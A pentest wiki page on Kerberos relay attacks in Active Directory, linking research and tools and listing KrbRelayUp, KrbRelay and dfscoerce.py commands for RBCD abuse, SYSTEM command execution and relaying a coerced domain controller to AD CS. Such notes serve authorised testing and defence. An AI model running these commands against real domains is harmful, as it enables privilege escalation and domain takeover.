 # Kerberos Relay

- [https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html](https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html)
- [https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html)




## mitm6 + Kerberos DNS Relay + AD CS ESC8

- [https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/](https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/)




## Tools



### KrbRelay

- [https://github.com/cube0x0/KrbRelay](https://github.com/cube0x0/KrbRelay)
- [https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)
- [https://icyguider.github.io/2022/05/19/NoFix-LPE-Using-KrbRelay-With-Shadow-Credentials.html](https://icyguider.github.io/2022/05/19/NoFix-LPE-Using-KrbRelay-With-Shadow-Credentials.html)



### KrbRelayUp

- [https://github.com/Dec0ne/KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp)
- [https://www.microsoft.com/security/blog/2022/05/25/detecting-and-preventing-privilege-escalation-attacks-leveraging-kerberos-relaying-krbrelayup/](https://www.microsoft.com/security/blog/2022/05/25/detecting-and-preventing-privilege-escalation-attacks-leveraging-kerberos-relaying-krbrelayup/)
- [https://github.com/BronzeBee/DavRelayUp](https://github.com/BronzeBee/DavRelayUp)
- [https://github.com/Dec0ne/DavRelayUp](https://github.com/Dec0ne/DavRelayUp)


#### RELAY

Relay authentication to LDAP(S) with automatic machine creation and configure RBCD:

```
PS > .\KrbRelayUp.exe RELAY [-d|--Domain megacorp.local] [-dc|--DomainController DC01.megacorp.local] [-m|--Method RBCD] -c|--CreateNewComputerAccount [-cn|--ComputerName FAKEMACHINE$] [-cp|--ComputerPassword Passw0rd!]
```

Perform RBCD with UPNs:

```
PS > .\KrbRelayUp.exe RELAY -u2u -cn j.doe -cp Passw0rd!
```

{% content-ref url="/pentest/infrastructure/ad/kerberos/delegation-abuse/rbcd.md#rbcd-with-upns" %}
[rbcd.md](rbcd.md)
{% endcontent-ref %}


#### SPAWN

Execute a command as NT AUTHORITY\\SYSTEM via RBCD abuse:

```
PS > .\KrbRelayUp.exe SPAWN [-m|--Method RBCD] [-i|--Impersonate administrator] [-s|ServiceName PwnSVC] [-sc|--ServiceCommand C:\Windows\System32\cmd.exe] -cn|--ComputerName FAKEMACHINE$ -cp|--ComputerPassword Passw0rd! [or -ch|--ComputerPasswordHash fc525c9683e8fe067095ba2ddc971889]
```

{% hint style="warning" %}
As [@ShitSecure](https://twitter.com/ShitSecure) mentioned, executing the binary as a .NET Reflective Assembly from PowerShell will fail because the PowerShell process will have already initialized the security parameters for COM itself after having been launched, so `CoInitializeSecurity` will not contain those new parameters attempted to set by KrbRelay(Up).
{% endhint %}



### RemoteKrbRelay

- [https://habr.com/ru/articles/848542/](https://habr.com/ru/articles/848542/)
- [https://github.com/CICADA8-Research/RemoteKrbRelay](https://github.com/CICADA8-Research/RemoteKrbRelay)
- [https://github.com/rtecCyberSec/RemoteKrbRelay/tree/ntlm](https://github.com/rtecCyberSec/RemoteKrbRelay/tree/ntlm)



### KrbRelay-SMBServer

- [https://www.tiraniddo.dev/2024/04/relaying-kerberos-authentication-from.html](https://www.tiraniddo.dev/2024/04/relaying-kerberos-authentication-from.html)
- [https://github.com/decoder-it/KrbRelay-SMBServer](https://github.com/decoder-it/KrbRelay-SMBServer)
- [https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx](https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx)
- [https://www.synacktiv.com/publications/abusing-multicast-poisoning-for-pre-authenticated-kerberos-relay-over-http-with](https://www.synacktiv.com/publications/abusing-multicast-poisoning-for-pre-authenticated-kerberos-relay-over-http-with)

Stop services with Cmd:

```
Cmd > sc config LanmanServer start= disabled & sc stop LanmanServer & sc stop srv2 & sc stop srvnet
Cmd > sc config LanmanServer start= auto & sc start LanmanServer & sc start srv2 & sc start srvnet
```

Stop services with PowerShell:

```
PS > Invoke-DNSUpdate -DNSName adcs1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -DNSData 10.10.13.37
PS > Set-Service -Name LanmanServer -StartupType Disabled; Stop-Service -Name LanmanServer -Force; Stop-Service -Name srv2 -Force; Stop-Service -Name srvnet -Force
PS > .\KrbRelay.exe -spn HTTP/ADCS.megacorp.local -redirecthost adcs1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -endpoint certsrv -adcs DomainController -listenerport 445
$ dfscoerce.py -d megacorp.local -u snovvcrash -k -no-pass adcs1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA DC01.megacorp.local
PS > Set-Service -Name LanmanServer -StartupType Automatic; Start-Service -Name LanmanServer; Start-Service -Name srv2; Start-Service -Name srvnet
```
